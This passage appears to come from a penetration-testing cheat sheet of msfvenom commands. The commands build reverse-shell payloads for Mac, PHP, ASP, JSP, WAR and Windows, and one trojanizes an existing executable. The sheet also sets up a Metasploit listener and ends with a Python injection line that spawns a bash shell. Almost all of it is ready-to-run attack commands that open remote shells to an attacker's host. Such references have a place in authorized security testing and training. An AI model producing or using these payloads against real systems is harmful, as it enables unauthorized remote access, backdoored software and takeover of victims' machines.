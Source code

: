 ## Mac
- `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
    
## PHP 
- `msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php`

> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
    
## ASP 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`    

## JSP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
    
## WAR
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
    
## Inject payload into an existing exe file
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -x <template EXE> -f exe > <output.exe>` 

## dep bypass payload
- `windows/meterpreter/reverse_nonx_tcp`

## multi handler
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set AutoRunScript post/windows/manage/migrate
set lhost 10.10.12.102
set lport 9001
exploit
```
--- 

# misc
## python injected shell
- `__builtins__.__import__('os').system('/bin/bash -i')`
